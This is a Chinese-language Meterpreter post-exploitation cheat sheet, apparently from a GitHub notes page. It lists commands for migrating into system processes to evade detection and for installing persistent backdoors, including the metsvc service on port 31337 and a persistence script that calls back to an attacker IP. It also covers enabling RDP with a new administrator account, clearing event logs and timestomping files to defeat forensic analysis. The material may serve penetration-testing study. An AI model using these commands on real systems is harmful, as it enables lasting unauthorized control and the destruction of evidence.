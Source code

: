当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate pid     # 绑定/迁移进程
```

**后门**

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc**
    ```bash
    run metsvc
    # 命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
    # 同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost xxx.xxx.xxx.xxx
    set lport 31337
    ```

- **persistence**
    ```bash
    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登陆时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

### 痕迹清除
```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**
```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```
